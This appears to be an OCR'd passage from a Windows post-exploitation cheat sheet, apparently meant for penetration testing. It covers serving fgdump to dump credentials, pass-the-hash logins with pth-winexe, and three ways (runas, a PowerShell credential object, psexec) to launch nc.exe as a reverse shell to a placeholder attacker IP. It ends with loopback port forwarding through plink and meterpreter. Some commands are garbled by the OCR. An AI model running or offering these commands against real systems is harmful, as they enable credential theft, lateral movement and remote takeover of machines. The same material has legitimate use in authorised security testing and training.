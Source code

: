 Download and run fgdump.exe on the target machine.

```
 cd /usr/share/windows-binaries/fgdump; python -m SimpleHTTPServer 80
```

```
pth-winexe -U DOMAIN/user%hash //$ip cmd
```

or:

```
export SMBHASH=xxx
pth-winexe -U user%  //$ip cmd
```

You can also do run as, with the hash:

### Technique 1:

```
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

### Technique 2:

```
secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

```
powershell -ExecutionPolicy Bypass -File c:\users\public\r.ps1
```

### Technique 3:

```
psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc <attacker_ip> 4444 -e cmd.exe"
```

## Services only available from loopback

You can find services bind to the loopback interface that are not reachable through the network running. Look for **LISTENING/LISTEN**:

```
netstat -ano
```

Port forward using plinplink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

Port forward using meterpreter
